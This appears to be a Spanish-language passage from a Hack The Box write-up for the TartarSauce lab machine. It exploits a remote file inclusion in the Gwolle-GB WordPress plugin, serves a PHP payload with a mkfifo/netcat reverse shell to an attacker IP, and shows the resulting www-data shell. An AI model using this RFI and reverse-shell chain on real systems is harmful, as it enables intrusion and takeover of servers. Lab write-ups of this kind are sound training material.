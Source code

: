 Leyendo el exploit, vemos que tenemos que tenemos posibilidad de un RFI a través de la ruta `/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://`; para probar, vamos a creamos un archivo php de prueba en nuestra máquina y compartimos el servicio HTTP con python. Debemos tener en cuenta que el archivo se tiene que llamar `wp-load.php`:

```bash
❯ cat wp-load.php
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: wp-load.php
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │     echo "<pre>Esto es una prueba</pre>"
   3   │ ?>
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Ahora ingresamos a la siguiente dirección URL y vemos nuestra nuestro archivo:
- http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.16/

![""](/assets/images/htb-tartarsauce/tartarsauce_php.png)

Asi que vamos a crearnos una reverse shell, nos ponemos en escucha por el puerto 443 y accedemos a la direccion URL http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.16/

```php
<?php
	system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 443 >/tmp/f')
?>
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [21/Sep/2021 21:21:07] "GET /wp-load.php HTTP/1.0" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.88] 34232
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
